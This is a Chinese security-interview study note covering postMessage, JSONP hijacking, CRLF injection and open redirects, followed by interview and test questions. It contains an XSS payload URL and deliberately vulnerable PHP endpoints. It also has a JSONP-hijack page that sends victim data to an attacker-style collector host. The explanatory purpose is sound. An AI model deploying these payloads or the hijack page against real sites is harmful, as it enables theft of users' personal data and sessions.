

###### 示例

在 post.missfresh.com 上的请求发送页面：
```html
<!DOCTYPE HTML>
<html>
  <head>
    <meta charset="utf-8">
    <title>missfresh-window.postMessage()跨域消息传递</title>
  </head>
  <body>
    <div>
      <input type="text" value="hello,missfresh" />
      <button >发送消息</button>
    </div>
    <iframe src="http://receive.missfresh.com/child.html" width="500" height="60">
      <p>你的浏览器不支持IFrame。</p>
    </iframe>
    <script>
      window.onload = function() {
          var receiver = document.getElementById('receiver').contentWindow;
          var btn = document.getElementById('send');
          btn.addEventListener('click', function (e) {
              e.preventDefault();
              var val = document.getElementById('text').value;
              receiver.postMessage(val+"！", "*");
          });
      }
    </script>
  </body>
</html>
```
在 receive.missfresh.com 上的请求接收页面
```html
<!DOCTYPE HTML>

<html>

<head>

<meta charset="utf-8">

<title>missfresh-从post.missfresh.cn接收消息</title>

</head>

<body>

<div >
</div>

<script>

window.onload = function() {

var messageEle = document.getElementById('message');

window.addEventListener('message', function (e) {

alert(e.data);

messageEle.innerHTML = "从"+ e.origin +"收到消息： " + e.data;

});

}

</script>

</body>

</html>

```

演示效果：

未点击发送消息前：


点击发送消息后：


###### PostMessage安全威胁

PostMessage跨越一般威胁点在于对于目标域限制不严格导致的，大多数开发人员由于对于postmessage防范中targetOrigin参数默认为* ，因此只要包含了该方法页面，构造利用代码，就能够获取到敏感信息。

漏洞利用前提：
- 页面存在点击劫持
- postmessage函数中的targetOrigin默认为* 或者targetOrigi对应的域不安全

#### 跨域安全场景
业务场景跨域场景主要有以下两个场景
- 共享个人信息数据
- 共享cookie数据

##### 共享cookie数据
目前常见的一种形式，就是统一登陆，所有的大型企业，基本上都采用这种方式，登陆验证后会在所有的该企业其他同三级域中授权，因此一旦某个域出现安全威胁后，就可能窃取到用户的cookie信息，就可以利用该用户的cookie信息伪装用户操作

##### 共享个人信息数据
有些时候，可能不存在类似xss这类漏洞，直接获取到用户的cookie信息，但是为了数据在资产域中交换，常常利用jsonp、cors技术，但是会存在配置错误（例如：默认所有域可访问、正则表达式有缺陷、引入的JS有漏洞），这就导致数据被劫持。

#### 跨域安全方案
对于跨域的安全域，要严格控制信任域，禁止配置默认所有域的情况，对于限制的正则表达式要严格测试通过

对于引入的JS等执行脚本，需要保证来源的安全性，避免来源服务器本身的不安全威胁

对于边缘业务子域，要控制其可信度，避免从边缘业务的漏洞影响核心业务

对于非归属业务，禁止子域分配给其他归属，避免第三方不遵守安全，存在漏洞风险，造成对归属业务的影响


### 简述 JSONP 的业务意义，JSONP劫持利用方式及修复方案？

JSONP能够实现跨域访问，基本流程和条件是：
- 1、服务端必须支持jsonp，且拥有jsonp跨域接口（前提）
- 2、浏览器客户端声明一个回调函数，其函数名作为参数值，要传递给跨域请求数据的服务器，函数形参为要获取到的返回目标数据
- 3、创建一个```<script>```标签，把跨域的API数据接口加载到src属性，并且在这个地址向服务器传递该回调函数名
- 4、服务器会将数据返回到浏览器客户端，此时客户端会调用回调函数，对返回的数据进行处理

#### 示例
假设有一个提供JSONP服务的接口，用于获取用户的个人信息。只要请求该接口，用户就能得到自己的信息。

实际中，用户获取个人信息的过程为：访问登录页、身份验证、服务器建立session，返回sessionid和身份凭据、用户要求访问个人信息，服务根据用户session中的凭据判断是否可以返回信息，若合法则返回。

简单的提供JSONP的服务端：
```php

<?php

error_reporting(0);

$callback = $_GET['callback'];

echo $callback."({'id':1,'name':'missfresh'})"

?>
```

身份验证处理：
```php
<?php
error_reporting(0);
session_start();
$name = $_GET['name'];
$pwd = $_GET['pwd'];
if($name ==='admin' && $pwd === 'admin' || $name ==='guest' && $pwd === 'guest'){
    $_SESSION['name'] = $name;
}
echo '<a >用户信息</a><br>';
echo '<a >退出登录</a><br data-tomark-pass>';
if(!$_SESSION['name']){
    echo '<html>
        <head>
          <title>登录</title>
          <meta charset="utf-8">
        </head>
        <body>
          <form action="login.php" method="get">
            用户名：<input type="text" name="name">
            密码：<input type="password" name="pwd">
            <input type="submit" name="submit" value="login">
          </form>
        </body>
    </html>';
}else{
    echo "欢迎您".$_SESSION['name']."<br data-tomark-pass>";
}
?>
```

获取个人信息代码：
```php
<?php
error_reporting(0);
session_start();
$callback = $_GET['callback'];
if($_SESSION['name'] === 'admin'){
    echo $callback."({'id':1,'name':'missfresh_admin'})";
}elseif ($_SESSION['name'] === 'guest') {
    echo $callback."({'id':2,'name':'missfresh_guest'})";
}else{
    echo $callback."获取个人信息失败";
}
?>
```

未登录时效果：



登录成功时效果：



#### JSONP的安全威胁

至少有2个：
- 输入的callback函数名过滤不严格，攻击者可借助XSS脚本中函数为回调函数，在用户入口点注入特定字符串，导致数据直接输出到前端。
- 对数据源不进行限制，可能会由JSONP导入不安全的数据或脚本。

##### xss示例
构造下列请求链接：```http://172.16.31.149/jsonp/index.php?callback=jsonp_5981%3Cimg%20src=x%20onerror=alert(/xss/)%3E```

可以获取到用户的cookie信息或者劫持用户跳转到钓鱼网站

##### JSONP劫持

实质上算是一种读类型的CSRF，在恶意的网页中构造恶意的JS代码，当合法用户点击该网页，由于目标站点存在JSONP劫持漏洞的接口，因此会将用户的该接口对应的信息劫持，并将其发送到攻击者的服务器。

示例网页：
```html
<html>
  <head>
    <title>jsonp劫持</title>
    <meta charset="utf-8">
  </head>
  <script type="text/javascript" src="https://apps.bdimg.com/libs/jquery/2.1.4/jquery.min.js"></script>
  <script>
    function jsonp_hack(v){
      alert("jsonp劫持");
      var h='';
      for(var key in v){
        var a=''
        a=key+' : '+v[key]+' ,'
        h+=a
      }
      alert(h);
      $.get('http://jsonp1.kijkv0.ceye.io?value='+h);/*这是攻击者的链接，可以用于接收JSONP获得的信息*/
    }
  </script>
  <script src="http://172.16.31.149/jsonp/index.php?callback=jsonp_hack"></script>
  <body>
    <h1>jsonp劫持</h1>
  </body>
</html>
```

一旦被攻击者访问上面代码定义的网页，就会自动触发，会自动访问具有漏洞的jsonp接口，利用被攻击者自己的session获取到被攻击者的信息，并将该信息远程发送到攻击者的服务器上，如下图：


实际案例：

以某电商为例，劫持该电商的用户购物车



钓鱼网站mleitun.com劫持了meitun上的信息。

##### JSONP防护

- JSONP实际上属于CSRF，那么增加动态随机token就是一种防护手段。
- 设计refer检查机制
- 检查callback函数名


### CRLF注入原理

CRLF 指的是回车符(CR，ASCII 13，\r，%0d) 和换行符(LF，ASCII 10，\n，%0a)。

键盘上的回车键(Enter)就可以执行该操作。但是不同的操作系统，行的结束符是不一样的。
- Windows：使用CRLF表示行的结束
- Linux/Unix：使用LF表示行的结束
- MacOS：早期使用CR表示，现在好像也用LF表示行的结束

所以同一文件在不同操作系统中打开，内容格式可能会出现差异，这是行结束符不一致导致的。

在HTTP规范中，行应该使用CRLF来结束。首部与主体由两个CRLF分隔，浏览器根据这两个CRLF来获取HTTP内容并显示。HTTP报文的结构：
- 状态行和首部中的每行以CRLF结束；
- 首部与主体之间由一空行分隔。或者理解为首部最后一个字段有两个CRLF，首部和主体由两个CRLF分隔。

例如：
```
HTTP/1.1 200 OK
Bdpagetype: 2
Bdqid: 0xb24e5cb60007f535
```
CRLF注入漏洞，是因为Web应用没有对用户输入做严格验证，导致攻击者可以输入一些恶意字符。攻击者一旦向请求行或首部中的字段注入恶意的CRLF，就能注入一些首部字段或报文主体，并在响应中输出，所以又称为HTTP响应拆分漏洞（HTTP Response Splitting）。

#### CRLF漏洞检测

CRLF注入漏洞的本质和XSS有点相似，攻击者将恶意数据发送给易受攻击的Web应用程序，Web应用程序将恶意数据输出在HTTP响应头中。（XSS一般输出在主体中）

所以CRLF注入漏洞的检测也和XSS漏洞的检测差不多。通过修改HTTP参数或URL，注入恶意的CRLF，查看构造的恶意数据是否在响应头中输出。

示例：


可以看到上述图片中的请求中增加了内容，并用CRLF进行分隔。将修改后的请求包提交给服务器端，查看服务器端的响应。发现响应首部中多了个Set-Cookie字段。这就证实了该系统存在CRLF注入漏洞，因为我们输入的恶意数据，作为响应首部字段返回给了客户端。

这是由于服务器端源码可能为：
```phh
<?php

...
if(isset($_GET["url"]) && ($_COOKIE["security_level"] !="1" && $_COOKIE["security_level"] !="2")){
  header("location:".$_GET["url"]);
  exit;
}

?>
```
#### 漏洞修复
- 过滤 \r 、\n 之类的行结束符，避免输入的数据污染其他 HTTP 首部字段。

### URL白名单绕过

#### 利用URL跳转漏洞

URL跳转原理：由于越来越多的需要和其他第三方应用交互，以及在自身应用内部根据不同的逻辑将用户引向到不同的页面，譬如一个典型的登录接口就经常需要在认证成功之后将用户引导到登录之前的页面，整个过程中如果实现不好就可能导致一些安全问题，特定条件下可能引起严重的安全漏洞。

#### URL跳转的几种方式
##### HTML中使用元标签

```html
<head> 
<!-- 以下方式只是刷新不跳转到其他页面，每2秒刷新页面 -->
<meta http-equiv="refresh" content="2"> 
<!-- 以下方式定时转到其他页面 -->
<meta http-equiv="refresh" content="5;url=hello.html">  
</head> 
```

元数据通常以 名称/值 对出现。如果没有提供 name 属性，那么名称/值对中的名称会采用 http-equiv 属性的值。

meta标签的属性：
- charset：字符集
- http-equiv：把 content 属性关联到 HTTP 头部。可以取下面3个值：
  - content-type
  - default-style
  - refresh	
- name	把 content 属性关联到一个名称。可以取下面5个值：
  - application-name
  - author
  - description
  - generator
  - keywords	
- scheme	format/URI	HTML5不支持。 定义用于翻译 content 属性值的格式。
- ```<meta>``` 标签支持所有 HTML事件属性。
##### javascript实现跳转

- window.location.href方式
```js
<script language="javascript" type="text/javascript">  
  // 以下方式直接跳转 
  window.location.href='hello.html'; 
  // 以下方式定时跳转 
  setTimeout("javascript:location.href='hello.html'", 5000);  
</script> 
```
- window.navigate方式跳转:
```js
<script language="javascript">
    window.navigate("target.aspx");
</script>
```

- window.loction.replace方式
```js
<script language="javascript">
    window.location.replace("target.aspx");
</script>
```

- self.location方式
```js
<script language="JavaScript">
    self.location='target.aspx';
</script>
```
- top.location方式
```js
<script language="javascript">
      top.location='target.aspx';
</script>
```
- 返回方式
```js
<script language="javascript">
  alert("返回");
  window.history.back(-1);
</script>
```
##### Javascript刷新页面的几种方法： 
- history.go(0) 
- location.reload() 
- location=location 
- location.assign(location) 
- document.execCommand('Refresh') 
- window.navigate(location) 
- location.replace(location) 
- document.URL=location.href 

##### Java类（servlet）：

- 使用```response.sendRedirect("/a.jsp");```

页面的路径是相对路径。sendRedirect可以将页面跳转到任何页面，不一定局限于本web应用中，如：

```response.sendRedirect("http://www.jb51.net");```

跳转后浏览器地址栏变化。

这种方式要传值出去的话，只能在url中带parameter或者放在session中，无法使用request.setAttribute来传递。

- 使用```RequestDispatcher dispatcher = request.getRequestDispatcher("/a.jsp");```

```dispatcher.forward(request, response);```

页面的路径是相对路径。forward方式只能跳转到本web应用中的页面上。

跳转后浏览器地址栏不会变化。

跳转到同级目录下的页面。

使用这种方式跳转，传值可以使用三种方法：
- url中带parameter
- session
- request.setAttribute

##### JSP实现跳转

- ```response.sendRedirect();```

- ```response.setHeader("Location","");```

此语句前不允许有out.flush()，如果有，页面不会跳转。

跳转后浏览器地址栏变化

此语句后面的语句执行完成后才会跳转


#### 攻击方式及危害：
恶意用户完全可以借用URL跳转漏洞来欺骗安全意识低的用户，从而导致”中奖”之类的欺诈，这对于一些有在线业务的企业如淘宝等，危害较大，同时借助URL跳转，也可以突破常见的基于“白名单方式”的一些安全限制，如传统IM里对于URL的传播会进行安全校验，但是对于大公司的域名及URL将直接允许通过并且显示会可信的URL，而一旦该URL里包含一些跳转漏洞将可能导致安全限制被绕过。

如果引用一些资源的限制是依赖于“白名单方式”，同样可能被绕过导致安全风险，譬如常见的一些应用允许引入可信站点如baidu.com的视频，限制方式往往是检查URL是否是baidu.com来实现，如果baidu.com内含一个url跳转漏洞，将导致最终引入的资源属于不可信的第三方资源或者恶意站点，最终导致安全问题。

开放重定向（Open Redirect），也叫URL跳转漏洞，是指服务端未对传入的跳转url变量进行检查和控制，导致诱导用户跳转到恶意网站，由于是从可信的站点跳转出去的，用户会比较信任。URL形如：```https://example.com/login?return=https://mysite.com/```，后端代码形如：```response.sendRedirect(request.getParameter("url"))```

除了问号，还可以使用其它特殊符号尝试，例如：```# @ / // \ ```

### XSS持久化？


### 渗透全流程
就漏洞的检测发现进行提问
越权问题如何检测？
黑盒如何检测XSS漏洞？
如果爬取更多的请求？
应急思考
有哪几种后门实现方式？
webshell检测有什么方法思路？
Linux服务器中了木马后，请简述应急思路？
遇到新0day(比如Struts2)后，应该如何进行应急响应？
新业务上线前可以从哪些方向进行安全评估？
现有系统可以从哪些方向进行审计发现其中的安全风险？
基础开发
简述Python装饰器、迭代器、生成器原理及应用场景？
简述Python进程、线程和协程的区别及应用场景？
安全开发（Java方向）
Java基础
Java虚拟机区域如何划分？
HashMap和HashTable、ConcurrentHashMap的区别？
进程和线程区别，进程间、线程间通信有哪几种方式？
Java BIO/NIO/AIO是什么？适用哪些场景？
算法基础
快速排序的过程和复杂度？
冒泡排序的过程和复杂度？
CNN对比RNN区别？
业务基础
调试工具及异常排查流程？
数据库索引结构，什么情况下应该建唯一索引？
数据库分页语句如何写？
业务安全
HTTPS交互过程
OAuth2.0交互过程及其中可能存在的配置不当安全风险
对称加密和非对称加密的区别及优缺点
获取一个入参url，请求url地址的内容时应注意什么？
参数入库前应该如何过滤？
过滤器和拦截器原理和应用场景？
SESSION ID如何不被Javascript读取？
CSRF的Token如何设计？
同源策略？如何实现跨域请求？
安全运营（合规审计方向）
对于内控、合规、审计的理解
考察其对于要做的事情和岗位要求、公司环境是否匹配
考察其大局上考虑是否周全或是片面
传统行业和互联网行业的安全建设的区别及各自的优劣势
是否能准确的抓住核心原因
信息安全等级保护、网络安全法、GDPR
挑选一到两个问其对其的来源理解以及落地程度取舍
数据安全治理可以用什么思路做？
如何通过技术手段实现对异常操作的自动化监控？
如何对一个应用进行安全评估？
如何对一个应用进行安全审计？
如何理解权限分离、最小化权限？
考察一些CISP、CISSP的知识点
流程的设计
挑选一些较为复杂的流程，比如转岗、离职等，如何设计考虑其中的细节
安全架构（安全管理方向）
渗透测试、安全研发、安全运营的问题可以挑选的问一些，以确保在各个方向上比较均衡
对于企业不同时期、不同阶段、不同体量的安全建设的方法、区别以及侧重
你所做过的安全架构图和所期望的安全架构
安全与其他团队（运维、研发、测试、GR/PR、内控、高管及三方安全公司）的关系
安全建设的理念/方法论理解
纵深防御
木桶原理
由外而内
先低后上
能口不点
最小权限
权限分离
白名单和黑名单
漏洞和误报
规则经验和机器学习
漏洞危害证明
技术管控与意识提升的关系
安全推进方法
自研OR外采？
找到总的核心目标和各个项目的主要目标
创新和极致
责任分担
黑天鹅和灰犀牛
衡量企业安全建设的水平
不同公司间的安全区别或差别是什么？比如腾讯和阿里，百度和京东
如何制定公司安全建设的三年甚至五年计划
未来安全行业的发展方向？
3.4 笔试题目
面试题目往往大同小异，而由于圈子小的原因很容易传播出去，如果做过准备哪怕深入的问也可能有漏网之鱼。而笔试往往能很好的看出来其动手能力，所以应尽可能的出一些无法提前预知、无法网上查询的专属题目，题目可以侧重于开发、调试、数据操作等方面。

渗透测试方向
给定一个漏洞靶场，在一定时间内找出最多漏洞数
给定一个匿名访问Redis，请GET SHELL
给一个项目场景进行安全评估（e.g.与三方厂商进行API交互）
软件开发方向
读取一个文件第100-200行并发送到一个指定的API接口（着重考察对于各种异常情况的考虑）
最快的方式获取100万个子域名请求的响应内容并找出其中真实存在的子域名
数据结构方向
给一个数组[3,4,5,6,2,1,8]，输入所有二元组其和为8。
每个数字只能用一次
数组长度不定
考虑时间复杂度和空间复杂度，以最高效率
存在一个list结构（表1），请转换为树状结构（表2）
pid和id关系为父子关系
name为无规律随意命名
表1：list结构（list length>1000）

[
    {
    'id': '111',
    'pid': '0',
    'name': 'A1'
    },
    {
    'id': '222',
    'pid': '111',
    'name': 'A-B1'
    },
    {
    'id': '223',
    'pid': '111',
    'name': 'A-B2'
    },
    {
    'id': '224',
    'pid': '111',
    'name': 'A-B3'
    },
    {
    'id': '333',
    'pid': '223',
    'name': 'A-B2-C1'
    },
    {
    'id': '444',
    'pid': '333',
    'name': 'A-B2-C1-D1'
    }
]
表2：最终的结构

{
  'id': '111',
  'pid': '0',
  'name': 'A1',
  'child': [
    {
      'id': '222',
      'pid': '111',
      'name': 'A-B1'
    },
    {
      'id': '223',
      'pid': '111',
      'name': 'A-B2',
      'child': [
        {
          'id': '333',
          'pid': '223',
          'name': 'A-B2-C1',
          'child': [
            {
              'id': '444',
              'pid': '333',
              'name': 'A-B2-C1-D1'
            }
          ]
        }
      ]
    },
    {
      'id': '224',
      'pid': '111',
      'name': 'A-B3'
    }
  ]
}